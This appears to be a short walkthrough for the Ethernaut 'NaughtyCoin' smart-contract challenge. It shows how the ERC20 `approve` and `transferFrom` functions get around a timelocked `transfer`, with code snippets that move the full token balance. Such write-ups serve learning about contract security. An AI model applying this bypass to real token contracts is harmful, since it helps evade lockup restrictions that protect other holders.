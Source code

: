 # 15-NaughtyCoin

1. At first glance, this contract seems prevent you to transfer any value since `transfer` function is timelocked. But if you see ERC20 specification at https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md. There is a way to transfer your ERC20 Token on behalf of someone else (spender) using `transferFrom` and `approve` function.

2. First you approve other address as spender with max value

```shell
    contract.approve("0xD1973282641fb3BAFa7eD2a82E82E3772b558a79","1000000000000000000000000")
```

3. Then spender transfer all value from `player` address to other address.

```javascript
myContract.methods
  .transferFrom(
    "0xcdfB0772A328da9044D5bfD2D51A47230C9873A4",
    "0xD1973282641fb3BAFa7eD2a82E82E3772b558a79",
    "1000000000000000000000000"
  )
  .send();
```
